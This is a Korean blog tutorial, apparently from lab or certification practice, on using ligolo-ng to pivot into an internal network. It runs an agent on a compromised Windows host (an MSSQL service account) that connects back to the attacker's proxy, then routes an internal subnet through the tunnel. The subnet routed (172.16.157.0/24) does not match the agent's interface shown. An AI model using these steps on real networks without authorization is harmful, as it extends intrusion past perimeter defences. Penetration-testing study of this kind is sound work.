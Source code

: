 ```yaml
---
layout: post
title: ligolo-ng 사용법
subtitle: logolo-ng를 이용해서 포트포워딩, 네트워크 피보팅하기
category: knowledge
thumbnail-img: /assets/img/knowledge/ligolo_logo.png
tags: [ligolo, ligolo-ng, proxy, pivot, portforwarding]
author: Hong
---
```


우선 서버와 클라이언트에서 사용할 proxy, agent 바이너리 파일을 각각 다운받아야한다.

[깃허브](https://github.com/nicocha30/ligolo-ng)에서 다운로드.

SOCKS프록시를 사용하지 않기 때문에 설정 필요없고 간편하다.

kali에서 터널 준비 & 기동

```
sudo ip tuntap add user [your_username] mode tun [원하는 이름]

sudo ip link set [원하는 이름] up
```

서버에서 원하는 포트 지정.

```
 ./proxy -selfcert -laddr "0.0.0.0:7878" -tun [터널 이름]
WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC!
WARN[0000] Using self-signed certificates
WARN[0000] TLS Certificate fingerprint for ligolo is: 961A1B781DE6D16C89601ACCC6FF50A1BA11F96D9A6B880CD9EE0C4DA1B2E7DD
INFO[0000] Listening on 0.0.0.0:7878
    __    _             __
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ /
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /
        /____/                          /____/

  Made in France ♥            by @Nicocha30!
  Version: 0.7.5

ligolo-ng »
```

agent 바이너리 파일을 타겟 시스템에 배치한 후 아래의 명령어로 연결.

```
PS C:\temp> .\agent.exe -connect 192.168.45.211:7878 -ignore-cert
```

서버에서 접속된 것을 확인.

session명령어로 연결된 세션을 확인 할 수 있다.

```
ligolo-ng » INFO[0193] Agent joined.                                 id=2f93be9e-5c04-4ff8-bc57-d091c33b86d2 name="NT Service\\MSSQL$SQLEXPRESS@WEB02" remote="192.168.165.121:65289"

ligolo-ng » session
? Specify a session : 1 - NT Service\MSSQL$SQLEXPRESS@WEB02 - 192.168.165.121:65289 - 2f93be9e-5c04-4ff8-bc57-d091c33b86d2
[Agent : NT Service\MSSQL$SQLEXPRESS@WEB02] »
```

```
[Agent : NT Service\MSSQL$SQLEXPRESS@WEB02] » ifconfig
┌───────────────────────────────────────────────┐
│ Interface 0                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ Ethernet0                      │
│ Hardware MAC │ 00:50:56:ab:ad:c1              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 192.168.165.121/24             │
└──────────────┴────────────────────────────────┘
┌───────────────────────────────────────────────┐
│ Interface 1                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ Ethernet1                      │
│ Hardware MAC │ 00:50:56:ab:f2:9d              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 172.16.165.254/24              │
└──────────────┴────────────────────────────────┘
┌──────────────────────────────────────────────┐
│ Interface 2                                  │
├──────────────┬───────────────────────────────┤
│ Name         │ Loopback Pseudo-Interface 1   │
│ Hardware MAC │                               │
│ MTU          │ -1                            │
│ Flags        │ up|loopback|multicast|running │
│ IPv6 Address │ ::1/128                       │
│ IPv4 Address │ 127.0.0.1/8                   │
└──────────────┴───────────────────────────────┘
```

프록시 경유로 접속하고 싶은 네트워크 대역을 라우팅 테이블에 추가.

```
$ sudo ip route add 172.16.157.0/24 dev [터널 이름] # 이 예시에서는 터널이름이 ligolo
```

아래의 명령어로 추가되었는지 확인.

```
ip route list

default via 172.27.16.1 dev eth0 proto kernel
172.16.157.0/24 dev ligolo scope link
172.27.16.0/20 dev eth0 proto kernel scope link src 172.27.26.112
192.168.45.0/24 dev tun0 proto kernel scope link src 192.168.45.165
192.168.157.0/24 via 192.168.45.254 dev tun0
```

여기까지했으면 설정 완료.
서버의 ligolo쉘로 돌아가서 start를 입력하면 프록시가 시작된다.

kali에서 설정한 네트워크에 문제없이 통신이 가능해진다.

# 참고자료

관련 유튜브 영상의 [링크](https://www.youtube.com/watch?v=DM1B8S80EvQ&ab_channel=GonskiCyber)
참고한 블로그 [링크](https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740)
